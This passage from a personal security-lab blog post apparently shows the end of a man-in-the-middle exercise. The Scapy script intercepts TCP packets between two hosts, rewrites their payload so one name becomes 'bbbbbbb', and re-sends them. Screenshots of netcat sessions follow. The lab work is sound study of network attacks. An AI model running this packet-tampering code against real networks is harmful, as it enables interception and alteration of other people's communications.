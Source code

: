 ```python
            send(newpkt / Raw(load = newdata), verbose=0)
        else:
            send(newpkt, verbose=0)
    elif pkt[IP].src == hostB and pkt[IP].dst == hostA:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        # Check for payload and replace first occurence of my name with 'b'
        if pkt[TCP].payload:
            data = (pkt[TCP].payload.load).decode().lower()
            newdata = re.sub('ifeanyi', 'bbbbbbb', data, 1)
            send(newpkt / Raw(load = newdata), verbose=0)
        else:
            send(newpkt, verbose=0)
         
                
if __name__ == '__main__':
    main()
```

***mitm nc `host A`***

![hostA -nc-mitm png](https://github.com/iukadike/blog/assets/58455326/932bce82-fccf-455f-9b63-2afda48e4a19)

***mitm nc `host B`***

![hostB -nc-mitm](https://github.com/iukadike/blog/assets/58455326/aad5532d-1589-4469-9e41-c5a40797dad3)

##### side note:
- when there is a payload, the psh flag is set.
- you need to convert the packet to bytes because, in the end, you want to make a copy. Since the packet is an array, assigning it directly will not create a copy.

<br>

Thanks for reading...
